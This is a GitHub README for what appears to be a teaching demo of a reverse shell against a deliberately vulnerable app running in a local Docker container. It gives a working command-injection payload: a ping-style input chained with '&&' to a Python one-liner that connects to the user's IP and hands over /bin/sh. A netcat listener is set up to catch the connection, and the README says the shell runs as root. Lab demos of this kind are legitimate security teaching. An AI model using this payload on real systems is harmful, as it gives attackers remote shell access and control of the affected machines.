 ## What is this?
A quick demo of a reverse shell.

## How do I use it?

****Note: If you don't have Docker installed, you can install it [here](https://www.docker.com/).**

1. Install dependancies: ```npm i```

2. Build the docker image: ```npm run docker:build```

3. Run the docker image: ```npm run docker:start```

4. Go [here](http://localhost:3000/) in your web browser.

5. Listen to port 9999 on your computer: ```nc -l 9999```

6. Put this in the input field on the webpage (change where it says "CHANGE ME" to your computer's IP): ```127.0.0.1 && python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("CHANGE ME",9999));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'```

7. Press submit in the webpage and check your terminal when you entered the command in step 5. 
    - You can type ```whoami``` to check if it worked. You should see "root"
